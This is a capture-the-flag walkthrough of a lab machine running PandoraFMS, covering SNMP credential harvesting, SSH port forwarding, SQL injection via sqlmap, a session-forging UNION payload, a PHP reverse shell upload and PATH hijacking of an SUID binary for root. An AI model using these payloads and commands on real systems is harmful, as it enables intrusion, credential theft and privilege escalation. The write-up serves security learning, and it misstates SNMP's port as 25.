This box is rated easy difficulty on THM. It involves us gathering plaintext credentials via SNMP to get a shell on the system, port forwarding an internal web server to dump the database via SQL injection, and exploiting path injection in a backup binary to escalate privileges to root user.

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -sCV -p- 10.129.2.132 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-19 00:47 CST
Nmap scan report for 10.129.2.132
Host is up (0.056s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.29 seconds
```

Repeating the same for a few more common UDP services actually shows that SNMP is is up and running. 

```
$ sudo nmap -p25,53,161 -sU 10.129.2.132 -v

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-19 01:00 CST
Initiating Ping Scan at 01:00
Scanning 10.129.2.132 [4 ports]
Completed Ping Scan at 01:00, 0.08s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:00
Completed Parallel DNS resolution of 1 host. at 01:00, 0.01s elapsed
Initiating UDP Scan at 01:00
Scanning 10.129.2.132 [3 ports]
Discovered open port 161/udp on 10.129.2.132
Completed UDP Scan at 01:00, 0.12s elapsed (3 total ports)
Nmap scan report for 10.129.2.132
Host is up (0.059s latency).

PORT    STATE  SERVICE
25/udp  closed smtp
53/udp  closed domain
161/udp open   snmp

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
           Raw packets sent: 10 (519B) | Rcvd: 5 (399B)
```

There are a total of three ports open:
- SSH on port 22
- SNMP on port 25
- An Apache web server on port 80

Checking the web server's landing page just shows a static webpage with all links pointed towards javascript void. I fire up Gobuster to find any subdirectories/subdomains in the background and then start to enumerate SNMP.



## Grabbing User Credentials over SNMP
Using SNMPwalk with the public community string brings forth a ton of output, so I redirect stdout to a file in order to grep for strings.

```
#Running SNMPwalk against the target with public community string 
#and starting at the root of MIB tree
snmpwalk -v2c -c public MACHINE_IP .1 > out.txt

#Searching for strings
grep string out.txt
```

Upon doing so, we can see a system command being executed along with plaintext credentials for a user named Daniel.



## Port Forwarding Internal Web Server
Let's use those to sign in over SSH and start internal enumeration on the box. Checking the `/home` directory shows another user named Matt who we'll probably need to pivot to before root.

Going about the usual routes of privilege escalation rewards me with a `pandora_backup` binary with the SUID bit set. We may be able to use it to escalate privileges to root, however only Matt has access to execute it so I'll save it for later use.

```
find / -perm /4000 2>/dev/null
```



There was no login panel so I doubt we have any database to dump for us to grab Matt's password. I take a peek into the `/var/www` directory to see if there might be another web server running or sensitive files leftover. Displaying the `composer.json` file discloses that an instance of Pandora FMS may be running on the box.



We can confirm this by checking `/etc/apache2/sites-enabled/`, which shows two servers. Displaying Pandora's configuration file shows that it's running on localhost:80.



Since we are already logged in via SSH, we can also use it to port forward this to our attacking machine in order to enumerate the site. I reinitiate my session while specifying to forward traffic from port 80 on the server to port 9001 on my machine.

```
ssh -L 9001:localhost:80 daniel@MACHINE_IP
```



After navigating to `localhost:9001`, we find the login console for PandoraFMS. I couldn't find any credentials on the server and Daniel's also didn't work here, so we'll have to look for vulnerabilities. The footer on the page discloses the version of `v7.0NG.742_FIX_PERL2020` which I send over to Google.

## SQL Injection in PandoraFMS
A bit of digging showed that the [PandoraFMS official page](https://pandorafms.com/en/security/common-vulnerabilities-and-exposures/) had a page which listed CVEs for their different versions. Checking which ones were fixed after our current version showed that our application was vulnerable to [CVE-2021–32099](https://nvd.nist.gov/vuln/detail/CVE-2021-32099). This describes a way for attackers to upgrade unprivileged sessions via the `/include/chart_generator.php` `session_id` parameter.

Now that we know the app is vulnerable to SQL injection that way, I use it to enumerate the database and grab credentials for any user. Simply supplying a single quote confirms that this can be done.

```
http://localhost:9001/pandora_console/include/chart_generator.php?session_id='
```



Now let's find the correct amount of columns.

```
http://localhost:9001/pandora_console/include/chart_generator.php?session_id=%27%20UNION%20SELECT%201,2,3--%20-
```


Looks like three columns returns a normal Access not granted error. To save on time, I'll just send this URL to SQLmap. If you're interested in doing this manually, check out [this article](https://github.coventry.ac.uk/pages/CUEH/245CT/6_SQLi/DatabaseEnumeration/) which is a great reference for enumerating databases via SQLi. First, I want all databases, so I use the `--dbs` flag along with `--batch` to automatically hit yes on questions that arise.

```
sqlmap -u 'http://localhost:9001/pandora_console/include/chart_generator.php?session_id=' --batch --dbs
```



Looks like there's just a pandora DB, let's find all tables within it next.

```
sqlmap -u 'http://localhost:9001/pandora_console/include/chart_generator.php?session_id=' --batch -D pandora --tables
```



That gave a whole lot of tables, but the only one that seems fairly interesting is this `tpassword_history` one. Finally, I'll dump all information from it with another sqlmap command.

```
sqlmap -u 'http://localhost:9001/pandora_console/include/chart_generator.php?session_id=' --batch -D pandora -T tpassword_history --dump
```



That rewards us with what looks like two MD5 hashes for Daniel and Matt. I send them over to [hashes.com](https://hashes.com/en/decrypt/hash) in order to get their plaintext variants, but only Daniels returns.



Attempting to login via the Pandora console panel shows that our user can only access the API on the site.



Since we aren't able to authenticate via passwords, I go back to dumping the database but focus on the `tsessions_php` table this time. This again returns entirely too much information, but among the sea of data is a user session for Matt.



## Uploading Shell as Admin
We could use that to get a successful session as Matt, however for the next step of getting remote code execution, Admin access would make it a ton easier. In order to do this, we can inject the `id_usario` value of admin in our URL to trick the page into granting us a `PHPSESSID` cookie for admin user.

Use this following payload in one tab, and once it's been submitted we can refresh another page at `/pandora_console` to get a session as administrator.

```
http://localhost:9001/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,2,'id_usuario|s:5:"admin";'-- -
```



From here, it's as simple as uploading a PHP reverse shell via the `Admin Tools` -> `File Manager` tab. I use Pentestmonkey's PHP reverse shell which then gets uploaded to the images directory. After standing up a Netcat listener and navigating to that file, I get a successful shell as Matt on the box.



## Privilege Escalation
After upgrading my shell with the typical `Python3 -c import pty` method, I go back to that `pandora_backup` binary we discovered earlier. Running the binary doesn't show too much so I swap to using ltrace on it to figure out what it's doing. It seems like it's attempting to make a tar backup of a directory in root's home directory, however we don't have access to it.



Upon further inspection, I notice that the binary doesn't use a full secure path when making a system call to tar. This means that we can inject a malicious tar binary into our path and have root run commands via that file.

First we need to set the first term in our `$PATH` variable to be wherever we want to host our malicious tar binary, I'll use `/tmp`. Next, we'll need to create that file to be executed upon calling the backup, in my case I just use bash so it spawns a shell as root. Finally, we make sure that everything is able to be executed and run it.

```
#Ensuring /tmp is the first place that the binary checks for tar
export PATH=/tmp:$PATH

#Making malicious tar binary
echo "/bin/bash -p" > /tmp/tar

#Making tar binary executable
chmod +x /tmp/tar

#Calling pandora_backup to spawn shell
/usr/bin/pandora_backup
```

After all that's done, we get a successful shell with root privileges and can grab the final flag under their home directory to finish the challenge.

_Note: If this doesn't work and you get an issue with a setuid error, it may be because of how Apache2 is configured and won't allow you to execute commands other than the server for security reasons. To rectify this, we can generate an SSH key as Matt and use his private key to login from our attacking machine for a proper shell._



That's all y'all, this box was pretty fun as I don't often see SNMP being ran on machines; We also covered almost all bases with the PandoraFMS sequence. I hope this was helpful to anyone following along or stuck and happy hacking!
